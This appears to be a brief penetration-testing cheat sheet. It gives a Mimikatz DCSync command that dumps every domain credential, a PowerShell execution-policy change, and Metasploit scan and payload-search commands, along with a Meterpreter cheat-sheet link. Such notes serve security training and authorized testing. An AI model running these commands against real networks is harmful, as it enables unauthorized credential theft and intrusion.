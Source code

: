 # Mimikatz

## Dump all passwords
```
privilege::debug
lsadump::dcsync /domain:corp.com /all /csv
```

# Powershell Unrestricted Executin Policy bypass
```
set-executionpolicy unrestricted
```

# Metasploit 
Meterpreter cheat sheet:
https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf

## Nmap Scanning
```
db_nmap 10.11.1.8 -A -Pn
```
## Payload Types
![image](https://gist.github.com/ssstonebraker/f25e2f1f6458da6dc074a1e7af79b773/raw/images---Thu_Apr_16_2020_1587053138991.png)

## Searching

### modules
    
	msf5 > search smb type:auxiliary

### Payloads
```
search meterpreter type:payload
```

## Cheatsheet
![image](https://gist.github.com/ssstonebraker/f25e2f1f6458da6dc074a1e7af79b773/raw/images---Thu_Apr_16_2020_1587051780275.png)
![image](https://gist.github.com/ssstonebraker/f25e2f1f6458da6dc074a1e7af79b773/raw/images---Thu_Apr_16_2020_1587051801949.png)
